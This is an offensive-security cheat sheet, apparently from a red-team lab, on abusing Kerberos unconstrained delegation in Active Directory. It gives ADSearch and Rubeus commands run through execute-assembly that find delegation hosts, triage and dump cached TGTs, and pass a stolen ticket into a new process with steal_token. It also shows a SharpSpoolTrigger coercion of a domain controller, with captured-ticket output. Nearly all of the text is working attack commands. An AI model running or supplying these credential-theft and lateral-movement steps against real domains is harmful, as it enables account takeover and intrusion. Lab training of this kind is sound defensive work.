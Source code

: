 # Get machines with unconstrained delegation in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

---

# After compromising a machine on the list we can wait for a privileged account to interact with it to get the tgt cached

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

---

# If a TGT is cached we can simply dump the ticket and pass the ticket to a proccess created by us

```bash
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540

```

---

---

# We can also force computer accounts to authenticate remotely to grab their TGT

```bash
# Start listening with Rubeus on Web
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

# Use SharpSpoolTriget
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

# We should see a ticket comming by on web
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    sdfsdfsdfsdfsdf

# To use this machine ticket we need to use a s4u2self technique


# To stop monitoring use
jobs
jobkill <id>
```

